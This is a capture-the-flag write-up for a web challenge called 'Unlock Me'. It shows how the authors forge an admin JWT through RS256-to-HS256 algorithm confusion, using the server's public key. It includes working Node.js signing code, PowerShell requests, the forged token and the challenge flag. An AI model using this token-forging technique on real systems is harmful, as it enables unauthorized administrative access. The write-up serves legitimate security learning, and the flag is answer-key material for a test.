 ```yaml
---
layout: default
title: Unlock Me
permalink: /:path/
parent: Web
nav_order: 2
---
```

# Unlock Me

> Points: 927 [1000]

## Description 
>Our agents discovered COViD's admin panel! They also stole the credentials **minion:banana**, but it seems that the user isn't allowed in. Can you find another way?  
>
> [Admin Panel](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)  
>This challenge:
>
>- Unlocks other challenge(s)
>- Is eligible for Awesome Write-ups Award
>- Prerequisite for Mastery Award - Web Warrior

## Solution
This challenge was interesting as we were able to learn about new jwt type attacks given the public key. Overall it was a freshing and new web challenge for us!

The credentials username banana and banana were given to us. The link brings us to the COViD HQ login. Attempting random credentials gives us the `Incorrect credentials` error. However when attempting to login using the credentials provide, us a different error `Only admins are allowed into HQ!`.

Upon closer inspection into the source code of html this was found
```html
<script>
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
</script>
```

Upon seeing this we thought why not trying to access [public.pem](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/) file directly which gave us the actual public.pem.

In addition the `fetch("login")` and `fetch("unlock")` seem to api routes.

As such we decided to query to api directly using powershell's `Invoke-RestMethod` to query the `/login`

```powershell
irm -Method Post "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login" -ContentType "application/json" -Body (@{username="minion";password="banana";}| ConvertTo-Json)
```

This gave us the access token to minion's account will be verified later
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDIxMDcwfQ.x6nDrEn2HrT0Ey807PaevMobHpXxlEBJmRh1DsHEPhuYAJqxRrsgYP6SEpegOZ0WP8TmmHPmXc3Vq0vvZfHy4fKE91_m0a0oC9kyg8TziamJGu7htDl2niivf3w_Kf2A6nvmVc--z8bvGD2ir3gtHr4oncC53K7M7nOSdNbdXEPOczSE-TzijpaunMcr9oltmkMNWqwVl7JZgdTqbgUob5kxk9sSshiZEfZ-U45Ykc1WfecTWC_vgLmMaM8xvgGmcg_DxzM9cIMOC3Cmq96a3X7pZC3JkTk0KSOI1UUrue-2fCm2FimdABy9QrcZc9f4FyiVECX5jlt5Dq5BUFQWWv5k1d3ddOyG0T9EBf-jhmCGl581ixkDFtE44RNP8us2kyaffKWytR11xUEx13-OQowHc9yfIYi6nfbw2_ZCwTJgLBMQmkX72vyhsvAHGTjR8q2UKpEafIxDIVxy8IImXCSyuoOrpwDVzjewmBaLFYdgA80gzEHxYGq5OwMeDusyEFC_piJzy7J6FVJt7XIdxws1beswddaYfkEawRCHwYMqAg_qF63ws9omgyOQmTRq0KSYlyMU-5iOMC9QnKolpgyxqIBUizqV6sCQlKC6b9MYlSfo282vSecAe-EhMG2oE-oq5T_FMPzOyr4w_jh8aeVrHJIWM_qXnJOLuV04m7s
```

At this point we were quite stuck until we manage to find this https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ which mentions the `None` algorithm attack. To test this we installed nodejs and jsonwebtoken
and ran the following code
```javascript
const jwt = require('jsonwebtoken')
let cert = fs.readFileSync('./public.pem')
let token = "thejwttokenfromabove"
payload = jwt.verify(token,cert)
payload
{ username: 'minion', role: 'user', iat: 1607421070 }
```
At this point we altered the payload and tried the none algorithm.

```javascript
payload['username']='admin'
'admin'
payload['role']='admin'
'admin'
payload
{ username: 'admin', role: 'admin', iat: 1607421070 }
jwt.sign(payload,cert,{algorithm:"None"})
Uncaught Error: "algorithm" must be a valid string enum value
    at /root/test/node_modules/jsonwebtoken/sign.js:52:15
    at Array.forEach (<anonymous>)
    at validate (/root/test/node_modules/jsonwebtoken/sign.js:43:6)
    at validateOptions (/root/test/node_modules/jsonwebtoken/sign.js:58:10)
    at Object.module.exports [as sign] (/root/test/node_modules/jsonwebtoken/sign.js:141:5)
```
At this point, I rechecked the same article saw another `RS256` to `HS256` vulnerability. Trying it, I was able to successfully generate a HS256 jwt token!

```javascript
jwt.sign(payload,cert,{algorithm:"HS256"})
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI'
```
Using the token above I tried to call the `/unlock` which gave me the flag! Whoorays!

```powershell
irm "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock" -Headers @{Authorization="Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI";}

flag
----
govtech-csg{5!gN_0F_+h3_T!m3S}
``` 

## Flag
`govtech-csg{5!gN_0F_+h3_T!m3S}`

